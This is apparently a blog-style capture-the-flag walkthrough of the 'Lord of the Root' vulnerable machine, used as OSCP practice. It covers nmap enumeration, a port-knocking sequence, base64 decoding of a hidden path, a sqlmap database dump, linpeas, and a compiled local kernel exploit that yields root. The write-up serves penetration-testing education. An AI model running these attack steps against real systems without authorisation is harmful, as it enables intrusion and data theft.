


I don't know much about lord of the rings, but this box was recommended on several sites, as a good machine to practice in prep or the OSCP. So I decided to attempt it.
"I created this machine to help others learn some basic CTF hacking strategies and some tools. I aimed this machine to be very similar in difficulty to those I was breaking on the OSCP."
Author: KookSec
On start, the box comes with username smeagol
Finding the target machine on the local network?
ip address = 10.0.0.13
sudo nmap -Pn -sC -sV -oA nmapscans/lotr 10.0.0.13Looking at all ports I didn't find much
sudo nmap -Pn -p- 10.0.0.13So after a few failed brute forcing and exploit attempts, I tried to ssh smeagol@10.0.0.13
probablay should have done this sooner but nevertheless.
In the image below, I see a hint Knock in the banner I see Easy as 1,2,3 After some digging I found a reference to port knocking
I wasn't to familar with "port knocking". I have came acrossed Vulnerbale Machines that levearge port knocking before but it had been awhile so I looked at the wiki.
For those who might be interested google port knocking and you will have plenty to read. In a nut shell, it's basically a secret handshake. This means the firewall rules are dynamic and once a certain knocking sequnence is achevied the firewall allows predetermined access to a service.
I found several nmap articles, that show "port knocking" example commands but the one that worked seem to be the following sequnce:
nmap -r -Pn -p1,2,3 10.0.0.13nmap -Pn -p- 10.0.0.13I had tried to run the above commands earlier and it didn't work, but after a reboot the above nmap commands did work. I finally see a another service on port 1337

Ran nmap -Pn -p1337 -sV 10.0.0.13 to determine what the service was running. Apache 2.4.7
Ran a quick dirb scan using dirb http://10.0.0.13:1337/
---- Scanning URL: http://10.0.0.13:1337/ ----
==> DIRECTORY: http://10.0.0.13:1337/images/
+ http://10.0.0.13:1337/index.html (CODE:200|SIZE:64)
+ http://10.0.0.13:1337/server-status (CODE:403|SIZE:291)
---- Entering directory: http://10.0.0.13:1337/images/ -------- Scanning URL: http://10.0.0.13:1337/ ----
==> DIRECTORY: http://10.0.0.13:1337/images/
+ http://10.0.0.13:1337/index.html (CODE:200|SIZE:64)
+ http://10.0.0.13:1337/server-status (CODE:403|SIZE:291)
---- Entering directory: http://10.0.0.13:1337/images/ ----Several URLs listed
http://10.0.0.13:1337/images/ http://10.0.0.13:1337/index.html http://10.0.0.13:1337/server-status http://10.0.0.13:1337/images/
http://10.0.0.13:1337/images/
http://10.0.0.13:1337/index.html
http://10.0.0.13:1337/server-status
http://10.0.0.13:1337/images/Diving into the URLs from the "dirb scan", I didn't find anything anything interesting until trying.
http://10.0.0.13:1337/index.html/
Looking at the Page:
Viewing the source I see:
Looks like base64 so I ran the standard:
echo 'THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh' | base64 -d
Once again, it looks like base64 so taking the output of our previous decoding I see:
echo 'Lzk3ODM0NTIxMC9pbmRleC5waHA=' | base64 -d
http://10.0.0.13:1337/978345210/index.php I see:
Great! A login this looks promising!
Spent some time enumerating the box and eventually got hit using SQLMAP. This was after many failed login attempts. Don't get discouraged here. I know I did, I was stuck here for a little bit. This took me many attempts and I looked at several resources to finally get something that would work. Even when I got it to work it took a long time.
python3 sqlmap.py -url http://10.0.0.13:1337/978345210/index.php --forms --dbs --level=5 --risk=3 --batch -D Webapp --dump all
Finally a shell

I dug around a little bit, but decided to run linpeas Link, I chose the quick method and used filezilla to transfer the file. Then ran the script.
Linpeas will print out alot of informaiton but the first thing I noticed was it flagged the OS.
It also list software on the vulnerable machine, that could assist you.
So I googled Ubuntu 14.04.3 exploits
You can find the vuln here
I downloaded the Exlploit
gcc 39166.c -o vulnpop./vulnpopTada! We are root!